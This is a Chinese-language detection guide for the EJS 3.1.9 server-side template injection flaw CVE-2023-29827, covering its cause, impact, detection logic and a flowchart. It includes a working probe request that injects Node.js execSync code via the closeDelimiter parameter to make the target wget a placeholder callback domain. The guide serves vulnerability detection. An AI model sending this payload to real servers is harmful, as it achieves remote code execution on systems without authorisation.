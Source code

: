 # Embedded JavaScript (EJS) 3.1.9 SSTI远程代码执行漏洞（CVE-2023-29827）检测说明

## 漏洞简介

EJS (Embedded JavaScript) 3.1.9 存在服务端模板注入（SSTI）漏洞，若攻击者可控ejs模板文件，可通过closeDelimiter参数注入恶意表达式，最终实现远程代码执行。

## 影响范围

- 产品：EJS (Embedded JavaScript)
- 影响版本：3.1.9
- CVE编号：CVE-2023-29827
- 危害等级：Critical

## 漏洞原理

EJS模板引擎在处理`settings[view options][closeDelimiter]`参数时，未做有效校验，攻击者可通过该参数注入恶意Node.js代码，导致任意命令执行。

## 利用方式与攻击流程

1. 攻击者构造带有SSTI payload的GET请求，利用settings参数注入Node.js命令。
2. 服务器端未对参数进行安全处理，直接传递给模板引擎。
3. 模板引擎执行恶意payload，触发命令执行（如wget外部OAST域名）。
4. 攻击者通过OAST平台（如interactsh）接收到请求，确认漏洞存在。

## 探测原理与流程

### 探测请求的构造

```http
GET /page?settings[view%20options][closeDelimiter]=x");process.mainModule.require('child_process').execSync('wget http://<oast域名>');// HTTP/1.1
Host: target.com
```

- closeDelimiter参数注入Node.js命令，尝试让目标服务器主动请求OAST域名。

### 预期响应与交互

- OAST平台收到来自目标的HTTP请求（协议为http）。
- 响应体包含`You are viewing page number`。

### 判定逻辑

```python
def is_vulnerable(interactsh_result, response):
    if 'http' in interactsh_result['protocol'] and 'You are viewing page number' in response.text:
        return True
    return False
```

### 检测流程Mermaid图

```mermaid
graph TD
    A[发送带SSTI payload的GET请求] --> B[OAST平台接收请求]
    B --> C[接收HTTP响应]
    C --> D{OAST平台收到http请求且响应含特征内容?}
    D -- 否 --> F[非漏洞]
    D -- 是 --> G[判定存在SSTI漏洞]
```

## 参考链接

- [GitHub Issue - EJS模板注入](https://github.com/mde/ejs/issues/720)
- [EJS官方安全说明](https://github.com/mde/ejs/blob/main/SECURITY.md#out-of-scope-vulnerabilities)
- [NVD官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2023-29827) 